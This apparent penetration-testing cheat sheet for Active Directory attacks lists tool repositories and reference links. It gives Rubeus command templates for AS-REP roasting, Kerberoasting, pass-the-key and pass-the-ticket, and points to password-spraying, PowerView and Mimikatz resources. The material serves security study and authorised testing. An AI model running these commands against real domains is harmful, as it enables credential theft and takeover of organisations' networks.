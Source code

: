 ```powershell
# https://github.com/kaluche/bloodhound-quickwin
# https://github.com/knavesec/Max
# https://github.com/improsec/ImproHound
# https://github.com/fox-it/aclpwn.py

# Get BH data from LDAP
https://github.com/c3c/ADExplorerSnapshot.py

# Rubeus
# https://github.com/GhostPack/Rubeus
## ASREProasting:
Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>
## Kerberoasting:
Rubeus.exe kerberoast /outfile:<output_TGSs_file>
Rubeus.exe kerberoast /outfile:hashes.txt [/spn:"SID-VALUE"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] 
## Pass the key (PTK):
.\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt
# Using the ticket on a Windows target: 
Rubeus.exe ptt /ticket:<ticket_kirbi_file>

# Password Spraying tool
https://github.com/dafthack/DomainPasswordSpray

# Kerberoast
https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1

# Powerview
https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
    Find-InterestingDomainShareFile
    –CheckAccess

# AD Cheatsheets
https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet

#  References: 
https://wadcoms.github.io/
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#most-common-paths-to-ad-compromise
https://github.com/infosecn1nja/AD-Attack-Defense
https://adsecurity.org/?page_id=1821 
https://github.com/sense-of-security/ADRecon
https://adsecurity.org/?p=15
https://adsecurity.org/?cat=7
https://adsecurity.org/?page_id=4031
https://www.fuzzysecurity.com/tutorials/16.html
https://blog.stealthbits.com/complete-domain-compromise-with-golden-tickets/
http://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/
https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/child-domain-da-to-ea-in-parent-domain
https://adsecurity.org/?p=1588
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://www.harmj0y.net/blog/tag/powerview/
https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos
https://github.com/dievus/Oh365UserFinder
https://o365blog.com/aadinternals/
```
